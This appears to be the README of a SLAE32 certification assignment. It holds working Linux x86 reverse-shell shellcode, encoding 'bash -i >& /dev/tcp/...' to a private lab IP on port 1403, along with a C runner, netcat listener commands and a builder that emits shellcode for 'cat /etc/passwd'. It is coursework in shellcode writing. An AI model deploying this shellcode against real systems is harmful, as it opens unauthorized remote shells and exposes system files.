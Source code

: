 Student ID: **SLAE-1530**

# SLAE32 Assignment 2 : Reverse Shell 

This repository is part of the SLAE32 Certification process.

## `execve.c`

local@user:$ `gcc execve.c -o execve`
local@user:# `nc -lvp 443`
local@user:$ `./execve`

## `execve-reverse-shell.masm`

local@user:$ `nasm -f elf32 -o execve-reverse-shell.o execve-reverse-shell.masm`
local@user:$ `ld -o execve-reverse-shell execve-reverse-shell.o`
local@user:# `nc -lvp 443`
local@user:$ `./execve-reverse-shell`

## `execve-reverse-shell-builder.py`

local@user:$ `chmod +x gen_revshell.py && ./gen_revshell.py 172.16.20.145 1403`

`````
#include<stdio.h>
#include<string.h>

// Shellcode size = 100
unsigned char code[] = \
        "\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x69\x6e\x2f\x2f\x68\x2f\x2f"
        "\x2f\x62\x89\xe3\x66\xb8\x2d\x63\x50\x31\xc0\x89\xe2\x50\x68\x30"
        "\x3e\x26\x31\x68\x34\x30\x33\x20\x68\x39\x33\x2f\x31\x68\x37\x33"
        "\x34\x39\x68\x32\x38\x38\x36\x68\x74\x63\x70\x2f\x68\x64\x65\x76"
        "\x2f\x68\x69\x3e\x26\x2f\x68\x73\x68\x20\x2d\x68\x2a\x2f\x62\x61"
        "\x68\x2f\x2f\x2f\x2f\x89\xe6\x50\x56\x52\x53\x89\xe1\x50\x89\xe2"
        "\xb0\x0b\xcd\x80";

main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
`````

user@local:$ `gcc shellcode.c -o shellcode -z execstack`
user@local:# `nc -lvp 443`
user@local:$ `./shellcode`

## `execve-builder.py`

user@local:$ `./execve-builder.py "/bin/cat /etc/passwd"`

``````
// Shellcode size = 70
unsigned char code[] = \
    "\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x69\x6e\x2f\x2f\x68\x2f\x2f"
    "\x2f\x62\x89\xe3\x66\xb8\x2d\x63\x50\x31\xc0\x89\xe2\x50\x68\x73"
    "\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x20\x2f\x65\x74\x68\x2f\x63"
    "\x61\x74\x68\x2f\x62\x69\x6e\x89\xe6\x50\x56\x52\x53\x89\xe1\x50"
    "\x89\xe2\xb0\x0b\xcd\x80";
``````

